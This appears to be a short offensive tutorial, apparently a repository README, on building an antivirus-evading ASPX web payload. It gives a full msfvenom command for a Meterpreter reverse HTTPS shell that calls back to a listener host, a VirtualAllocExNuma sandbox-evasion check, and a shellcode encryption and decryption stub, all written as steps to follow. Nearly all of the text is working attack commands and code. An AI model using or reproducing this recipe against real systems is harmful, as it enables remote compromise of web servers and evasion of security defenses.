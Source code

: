 1. Create a malicious .aspx file with msfvenom

```
~# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 enablestageencoding=true handlersslcert=justice.pem prependmigrate=true -f aspx -o met.aspx
```

2. Add the "VirtualAllocExNuma" and "GetCurrentProcess" C# signatures. Then add this piece of code under the "Page_Load" method:

```
         IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
         if(mem == null)
         {
             return;
         }
```

3. Now, we will use the [encoder.cs]() file to encrypt the shellcode that msfvenom originally generated.

4. Finally, change the original shellcode for the encrypted one and add this decryption stub:

```
byte[] pLG0 = new byte[1165] { 0x01, 0x4d, 0x88, ... };
for(int i = 0; i < pLG0.Length; i++)
{
 pLG0[i] = (byte)(((uint)pLG0[i] - 5) & 0xFF);
}
```
